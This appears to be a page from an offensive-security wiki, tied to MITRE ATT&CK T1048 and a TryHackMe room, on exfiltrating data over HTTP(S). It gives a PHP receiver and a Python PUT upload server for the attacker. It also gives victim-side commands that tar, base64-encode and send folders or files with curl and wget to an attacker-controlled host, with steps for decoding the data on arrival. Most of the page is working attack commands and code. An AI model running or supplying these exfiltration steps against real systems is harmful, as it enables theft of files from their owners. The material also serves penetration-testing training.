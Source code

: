 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Over HTTP(s)

## Theory

Exfiltration Over Alternative Protocol can be done using various common operating system utilities such as Net/SMB or FTP. On macOS and Linux curl may be used to invoke protocols such as HTTP/S

{% hint style="danger" %}
We can also use [HTTP(S) Tunneling](../pivoting/http-tunneling.md) as a good [exfiltration](./) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Linux - POST" %}
We will host a simple PHP server in order to retrieve encoded POST data.

First write the following code in your `index.php` file

```php
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
}
?>
```

Second, start the PHP web-server in the same directory

```bash
# Start server on port 80
v4resk㉿kali$ php -S 0.0.0.0:80
```

On the victim computer, you can now send data through POST request. It will be saved at `/tmp/http.bs64`

```bash
# Linux
# Compress folder, base64, and send
user@victime$ curl --data "file=$(tar zcf - folderToExfiltrate | base64)" http://ATTACKING_IP/
```

On attacking machine, we can decode now decode it:

```bash
# Decode compressed folders
v4resk㉿kali$ sed -i 's/ /+/g' /tmp/http.bs64
v4resk㉿kali$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
```
{% endtab %}

{% tab title="Linux - PUT" %}
Using the following code, we will host a simple python server in order to retrieve PUT data.&#x20;

{% code title="http-put-server.py" %}
```python
#!/usr/bin/env python
import os
try:
    import http.server as server
except ImportError:
    # Handle Python 2.x
    import SimpleHTTPServer as server

class HTTPRequestHandler(server.SimpleHTTPRequestHandler):
    """Extend SimpleHTTPRequestHandler to handle PUT requests"""
    def do_PUT(self):
        """Save a file following a HTTP PUT request"""
        filename = os.path.basename(self.path)

        # Don't overwrite files
        if os.path.exists(filename):
            self.send_response(409, 'Conflict')
            self.end_headers()
            reply_body = '"%s" already exists\n' % filename
            self.wfile.write(reply_body.encode('utf-8'))
            return

        file_length = int(self.headers['Content-Length'])
        with open(filename, 'wb') as output_file:
            output_file.write(self.rfile.read(file_length))
        self.send_response(201, 'Created')
        self.end_headers()
        reply_body = 'Saved "%s"\n' % filename
        self.wfile.write(reply_body.encode('utf-8'))

if __name__ == '__main__':
    server.test(HandlerClass=HTTPRequestHandler)
```
{% endcode %}

On attacking host, start the server.

```bash
v4resk㉿kali$ python http-put-server.py
```

Then we can exfiltrate data from the victime host using `curl` or `wget`.

```bash
user@victime$ curl -X PUT --upload-file somefile.txt http://<ATTACKING_IP>:8000
user@victime$ wget -O- --method=PUT --body-file=somefile.txt http://<ATTACKING_IP>:8000/somefile.txt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
